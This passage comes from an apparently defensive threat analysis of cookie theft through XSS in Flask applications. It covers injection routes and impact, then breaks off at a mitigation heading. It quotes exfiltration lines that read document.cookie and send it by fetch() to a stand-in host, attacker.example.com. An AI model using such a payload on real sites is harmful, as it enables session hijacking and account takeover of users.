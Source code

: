     **Explanation of the Payload:**
    *   `document.cookie`: This JavaScript property retrieves all cookies associated with the current domain.
    *   `attackerURL = "https://attacker.example.com/collect_cookies?c=" + encodeURIComponent(cookies);`: This line constructs a URL pointing to the attacker's server (`attacker.example.com`). It appends the stolen cookies as a URL parameter named `c`, encoded using `encodeURIComponent` to ensure proper transmission.
    *   `fetch(attackerURL, {mode: 'no-cors'});`: This line uses the `fetch` API to send an HTTP request to the attacker's server. `mode: 'no-cors'` is used to bypass potential Cross-Origin Resource Sharing (CORS) restrictions that might prevent the script from sending data to a different domain. Alternatively, older techniques like creating an `<img>` tag with `src` set to the attacker's URL could be used.

3.  **Payload Injection:** The attacker injects this malicious script into the vulnerable part of the Flask application. The injection method depends on the type of XSS:
    *   **Reflected XSS:** The attacker crafts a malicious URL containing the script and tricks the victim into clicking it (e.g., via phishing email, social engineering).
    *   **Stored XSS:** The attacker submits the script as user input that gets stored by the application (e.g., in a comment, forum post). When other users view the content, the script is executed.

4.  **Script Execution and Cookie Theft:** When a victim user visits the page containing the injected script, their browser executes the JavaScript. The script retrieves the cookies using `document.cookie` and sends them to the attacker's server (`attacker.example.com/collect_cookies`).

5.  **Cookie Exfiltration:** The attacker's server (`attacker.example.com`) receives the stolen cookies. The attacker can then analyze these cookies to identify sensitive information or attempt to use them for malicious purposes, such as session hijacking or bypassing security controls.

#### 4.3. Impact of Cookie Theft

The impact of cookie theft depends heavily on the purpose and sensitivity of the stolen cookies. Potential impacts include:

*   **Account Compromise (Authentication Cookies):** If authentication cookies (e.g., session IDs, JWTs stored in cookies) are stolen, the attacker can impersonate the victim user and gain full access to their account without needing their username or password. This is a **critical** impact, leading to complete account takeover.
*   **Authorization Bypass (Authorization Cookies):** Cookies might be used to store authorization information, such as user roles or permissions. Stealing these cookies could allow an attacker to bypass access controls, escalate privileges, and perform actions they are not authorized to do. This can range from **high** to **critical** impact depending on the level of access gained.
*   **Information Disclosure (Personal Information Cookies):** Cookies might store personal information, user preferences, or other sensitive data. Stealing these cookies can lead to information disclosure and privacy violations. The impact can be **medium** to **high** depending on the sensitivity of the disclosed information (e.g., PII, addresses, preferences).
*   **Application Logic Manipulation (Application State Cookies):** Some applications use cookies to store application state or control client-side logic. Stealing and manipulating these cookies could allow an attacker to bypass security features, manipulate application behavior, or disrupt functionality. The impact can vary from **low** to **medium** depending on the application's design and the role of these cookies.

**Severity:** In the context of this attack path, cookie stealing via XSS is considered a **HIGH-RISK PATH** and a **CRITICAL NODE** because it can directly lead to account compromise and other severe security breaches.

#### 4.4. Mitigation Strategies for Flask Applications

To effectively mitigate the risk of cookie stealing via XSS in Flask applications, the following strategies should be implemented:
